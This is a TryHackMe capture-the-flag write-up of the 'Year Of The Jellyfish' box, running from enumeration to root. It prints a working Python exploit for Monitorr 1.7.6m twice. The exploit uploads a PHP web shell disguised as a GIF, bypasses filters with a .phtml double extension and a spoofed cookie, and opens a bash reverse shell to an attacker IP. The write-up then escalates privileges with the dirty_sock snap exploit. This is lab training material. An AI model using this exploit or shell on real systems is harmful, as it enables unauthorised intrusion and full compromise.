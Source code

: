 # Year Of The Jellyfish TryHackMe Writeup
> Note: This box uses a public IP address, you need to add this to /etc/hosts the same as you would in any other box.  

### Initial enumeration  
```
Open 54.229.240.57:21
Open 54.229.240.57:22
Open 54.229.240.57:80
Open 54.229.240.57:443
Open 54.229.240.57:554
Open 54.229.240.57:7070
Open 54.229.240.57:8000
Open 54.229.240.57:8096
```
After running rustscan, I pass the output to an nmap scan with the -a switch. 
There are a few potential attack vectors present but before we start further enumeration, it's important we go through the output of our scan.
We can see there's a domain and subdomains listen to use in the SSL cert and HTTP server redirect:  
![image](https://user-images.githubusercontent.com/65077960/125059255-0437f800-e0a3-11eb-94a7-72b8e3cfeab3.png)

We'll add this to our /etc/hosts file:
* robyns-petshop.thm
* monitorr.robyns-petshop.thm
* dev.robyns-petshop.thm
* beta.robyns-petshop.thm

Let's take a look around the different websites, starting with https://robyns-petshop.thm
![image](https://user-images.githubusercontent.com/65077960/125059929-c1c2eb00-e0a3-11eb-85dd-da6249113046.png)

As expected, it's a petshop. What about the other subdomains?  
https://monitorr.robyns-petshop.thm/    
![image](https://user-images.githubusercontent.com/65077960/125060084-e6b75e00-e0a3-11eb-830b-c6ad9b9540e2.png)  
https://beta.robyns-petshop.thm/  
![image](https://user-images.githubusercontent.com/65077960/125060178-fe8ee200-e0a3-11eb-9c5f-977d3ca2d559.png)  
https://dev.robyns-petshop.thm/  
![image](https://user-images.githubusercontent.com/65077960/125060262-17979300-e0a4-11eb-8086-6a764684248d.png)  

Monitorr looks interesting, let's enumerate it:  
We can see that it's running monitorr version 1.7.6m, after googling that we can see it's vulnerable to two different exploits:  
* https://www.exploit-db.com/exploits/48980 <RCE>
* https://www.exploit-db.com/exploits/48981 <Auth Bypass>

The RCE exploit we have is unauthenticated so let's try it. The exploit from exploitDB needs a few changes, we'll need to use dos2unix and import urllib3 to ignore the HTTPS self signed cert error. Our code ends up looking like this:  
```py                       
#!/usr/bin/python3
# -*- coding: UTF-8 -*-

import requests
import os
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

sess = requests.Session()
sess.verify = False

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    sess.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    sess.get(url, headers=headers)
```
Alright now that we've got our exploit, let's run it and try get a reverse shell:  
```
python3 exploit.py https://monitorr.robyns-petshop.thm/ 10.9.15.124 4444
```
and we get nothing. When we navigate to the directory listed [here](https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/). This had me stumped for a while so I decided  to take a look at the upload.php to see what errors there were:  
![image](https://user-images.githubusercontent.com/65077960/125064720-d9e93900-e0a8-11eb-83c7-900be503fd95.png)

### User own
It appears there was some manual patch for this, where only images of x size are allowed. Let's try again.  
After intercepting requests and checking the response, I noticed that we're detected as an exploit. Why's that?  
Well if we look at our cookies, we have a cookie called isHuman and a PHP session ID:
![image](https://user-images.githubusercontent.com/65077960/125066693-33eafe00-e0ab-11eb-8f51-48eb72906419.png)  
Let's try run our exploit again, but this time we'll use a double extension to bypass the file type check:  
> Initially I tried using just .php but that was detected, when talking with others we figured that .phtml worked better:  
```
#!/usr/bin/python3
# -*- coding: UTF-8 -*-

import requests
import os
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

sess = requests.Session()
sess.verify = False

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
	url = sys.argv[1] + "/assets/php/upload.php"
	headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

	data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.jpg.phtml\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

	r = sess.post(url, headers=headers, data=data, cookies={"isHuman": "1"})

	print ("A shell script should be uploaded. Now we try to execute it")
	url = sys.argv[1] + "/assets/data/usrimg/she_ll.jpg.phtml"
	headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
	sess.get(url, headers=headers)
```
We can run this using:
```
python3 exploit3.py https://monitorr.robyns-petshop.thm/ 10.9.15.124 4444
```
And.. nothing! The file was uplaoded to https://monitorr.robyns-petshop.thm/assets/data/usrimg/ but we can't get a reverse shell. What if there's a firewall? Let's try some common ports. I started by trying 8080, that didn't work. What about 443? Since we know that's open:  
> Note: I had to change the filename since we can't overwrite uploaded files, change that in the python script   

![image](https://user-images.githubusercontent.com/65077960/125068827-cf7d6e00-e0ad-11eb-8943-0939b37b559d.png)
It worked, we now have a reverse shell. The user flag can be found in /var/www/

### Root own
Let's try priv esc, as always we'll use upgrade our shell using pty:  
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
I tried to download linpeas via a python server but that didn't work. I remember that this box uses a public IP address, so we can just download it straight from github:  
![image](https://user-images.githubusercontent.com/65077960/125070136-98a85780-e0af-11eb-9f6f-984dbc0e1279.png)

There's a lot to sift through but the important part is the snap version:  
![image](https://user-images.githubusercontent.com/65077960/125070644-26844280-e0b0-11eb-9a80-409de5cf43b3.png)

We can try use [dirty socks](https://raw.githubusercontent.com/initstring/dirty_sock/master/dirty_sockv2.py) to get root. 
> Remember we have an internet connection, we can just download it from the github.  

![image](https://user-images.githubusercontent.com/65077960/125070781-55021d80-e0b0-11eb-8f83-94a1d13724cf.png)

The exploit was a success!  
![image](https://user-images.githubusercontent.com/65077960/125070921-7fec7180-e0b0-11eb-8433-835fca83dce5.png)

We can now su into dirty_sock and run commands as a sudoer!  
![image](https://user-images.githubusercontent.com/65077960/125071305-0608b800-e0b1-11eb-90c4-3aaacb432fd5.png)
The root flag is at /root/root.txt


